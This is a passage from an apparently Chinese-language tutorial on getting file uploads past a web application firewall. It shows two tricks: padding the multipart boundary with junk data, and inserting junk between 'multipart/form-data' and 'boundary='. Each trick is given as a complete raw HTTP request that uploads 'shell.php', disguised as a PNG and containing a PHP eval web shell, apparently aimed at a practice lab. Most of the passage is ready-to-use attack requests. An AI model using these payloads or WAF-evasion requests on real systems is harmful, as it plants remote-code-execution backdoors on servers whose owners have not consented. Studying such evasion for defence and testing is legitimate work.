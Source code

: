 boundray字符串的值可以为任何数据（有一定的长度限制）,当长度达到WAF无法处理时,而Web服务器又能够处理,那么就可以绕过WAF上传文件

**boundray末尾插入垃圾数据**

刚才讲到过boundary末尾可以插入任何数据,那么就可以在boundary字符串末尾加入大量垃圾数据

```
POST /Pass-01/index.php HTTP/1.1
Host: hackrock.com:813
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzEHC1GyG8wYOH1rf,bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8659f2312bf8658dafbf0fd31ead48dcc0b9f2312bfWebKitFormBoundaryzEHC1GyG8wYOH1rffbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b8dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9
Connection: close
Content-Length: 592

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['x']);?>

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryzEHC1GyG8wYOH1rf--
```

**multipart/form-data与boundary之间插入垃圾数据**

刚才讲到过multipart/form-data与boundary之间可以插入任何数据,那么就可以在multipart/form-data与boundary之间加入大量垃圾数据

```
POST /Pass-01/index.php HTTP/1.1
Host: hackrock.com:813
Content-Type: multipart/form-data bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8659f2312bf8658dafbf0fd31ead48dcc0b9f2312bfWebKitFormBoundaryzEHC1GyG8wYOH1rffbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b8dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9f2312bf8658dafbf0fd31ead48dcc0b9boundary=----WebKitFormBoundaryzEHC1GyG8wYOH1rf
Connection: close
Content-Length: 319

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['x']);?>

------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryzEHC1GyG8wYOH1rf--
```

